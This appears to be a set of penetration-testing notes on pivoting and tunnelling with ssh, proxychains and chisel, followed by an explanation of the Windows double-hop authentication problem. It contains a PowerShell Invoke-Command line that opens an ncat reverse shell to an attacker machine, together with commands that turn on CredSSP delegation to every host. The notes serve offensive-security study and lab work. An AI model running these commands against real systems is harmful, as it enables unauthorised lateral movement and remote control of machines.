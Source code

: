 # Pivoting/Tunneling  
## SSH   
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)   
  
## Socks    
On the attacker machine (server):      
`./chisel server -p 80 --reverse`   
  
On the pivot/victim machine (client):   
`./chisel client 10.10.14.47:80 R:6666:socks`  
      
Add `socks5 127.0.0.1 6666` in `/etc/proxychains4.conf`     
Then `proxychains <command>`    
       
  
**SOCKS5 proxy through a Sliver beacon**   
TODO   

  
## Port forwarding  
**port forwarding through a Sliver session**   
TODO  
  
         
## Double hop authentication problem fix  
   
**What is the double hop problem ?**  
*(Sources from ATTL4S : https://www.youtube.com/watch?v=p9QFdITuvgU & https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-double-hop-problem)*  
  
Services that support Windows authentication carry out something called client impersonation.  
When we access a service :   
1- Credentials are verified  
2- An Access Token with the security context (SID, name, groups, etc.) of your user is created  
3- The service places a copy of that Token into a new thread  
4- That thread can act on your behalf and is subject to the restrictions imposed
by ACLs  
  
The process is detailed in the picture below:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/98-PentestAD-token_impersonation.png?raw=true)  
  
The problem is that when authenticating from an interactive authentication, credentials are (usually) stored in lsass.exe for SSO purposes.  
When authenticating from a network authentication, credentials are NOT (usually) stored in lsass.exe, so our credentials will not be cached on the target server.  
  
Interactive authentication vs network authentication:  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/97-PentestAD-interactive_vs_network_authentication.png?raw=true)  
  
On the last jump, the service does not have the credentials to act as on behalf of the user :  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/99-PentestAD-double_hop.png?raw=true)   
  
**How to solve the double hop problem ?**  
*(Sources : https://notes.qazeer.io/general/pivoting)*   
This Microsoft document explains how to face the "double hop" problem :   
https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.3&viewFallbackFrom=powershell-7.1  

To solve the "double hop" authentication problem, which occurs whenever trying to access resources on a third server from the first remotely connected server, <ins>use interactive sessions (such as RDP) when it is possible</ins>. If it is not, the `-Credential` argument inside the `Invoke-Command` cmdlet and the CredSSP authentication mechanism can be used. Simply put, the problem happens because credentials are not allowed for delegation and thus can't be passed whenever accessing network resources from the remotely connected system. All access ends up being unauthenticated and results in Access denied errors.  
Using `-Credential` inside `Invoke-Command`:  
```
$user = 'domain.lol\johnfromthegarden'
$pass = 'Habile!123'
$secpasslol = ConvertTo-SecureString $pass -AsPlainText -Force
$creds = New-Object system.management.automation.PSCredential $user,$secpasslol

Invoke-Command -ComputerName 192.168.110.54 -Credential $creds -ScriptBlock {c:\temp\leperche\ncat.exe <the_attacker_machine_listening> 443 -e cmd.exe}
```

If using CredSSP, supports for CredSSP must be activated and configured on the client attacking system. The configuration below allows delegation to any system.
Check if CredSSP is enabled:  
```
Invoke-Command -ComputerName SRVMGMT -Credential domain.lol\johnfromthegarden -ScriptBlock {
    Get-WSManCredSSP
}
```
  
Enable CredSSP:  
```
winrm quickconfig
Set-Item WSMan:localhost\client\trustedhosts -value *
Enable-WSManCredSSP -Role "Client" -DelegateComputer "*"  
```
```
Start gpedit.msc
-> "Local Computer Policy" -> "Computer Configuration" -> "Administrative Templates" -> "System" -> "Credential Delegation"
-> In the "Settings" pane, "Allow Delegating Fresh Credentials with NTLM-only Server Authentication". -> "Enabled"
-> And in the "Options" area, "Show" -> "Value" = WSMAN/*
-> "Concatenate OS defaults with input above" checked
Once CredSSP is activated and correctly configured, the PowerShell cmdlets Invoke-Command and Enter-PSSession can be used with the -Authentication CredSSP option to make connections using CredSSP.
```  
  
